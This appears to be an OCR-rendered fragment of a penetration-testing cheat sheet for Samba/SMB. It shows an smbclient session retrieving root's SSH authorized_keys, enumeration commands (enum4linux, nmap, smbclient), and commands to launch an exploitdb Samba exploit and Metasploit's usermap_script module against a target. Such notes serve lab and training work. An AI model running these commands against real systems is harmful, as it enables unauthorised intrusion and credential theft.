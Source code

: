 smb: \> cd rootfs\/root/.ssh/

smb: \rootfs\root\.ssh\> get authorized_keys 

getting file \rootfs\root\.ssh\authorized_keys of size 405 as authorized_keys (197.7 KiloBytes/sec) (average 197.8 
KiloBytes/sec)

smb: \rootfs\root\.ssh\> ^C

root@kali:~# cat authorized_keys 

List directorys with smb

Ls

Get files

smbget -R smb://*target*/tmp

Put files

### Port 139/445 - SAMBA

enum4linux *target*

enum4linux -a -u guest -v *target*

enum4linux -a -u root -v *target*

nmap --script=smb-enum-shares.nse ip

smbclient //*target*/squirtle

smb:> cat key.txt

smb:> print key.txt

smb:\>get key.txt

cat key.txt

Ideas are below

cp /usr/share/exploitdb/platforms/linux/remote/7.pl .

perl 7.pl -t linx86 -H *target* -h 10.11.1.22

Command: -msf> search scanner/samba

use auxiliary/scanner/smb/smb_version

use exploit/multi/samba/usermap_script

searchsploit samba


### Port 161/162 UDP - SNMP


Refer to pentesting redbook tabs for SNMP

•	snmp
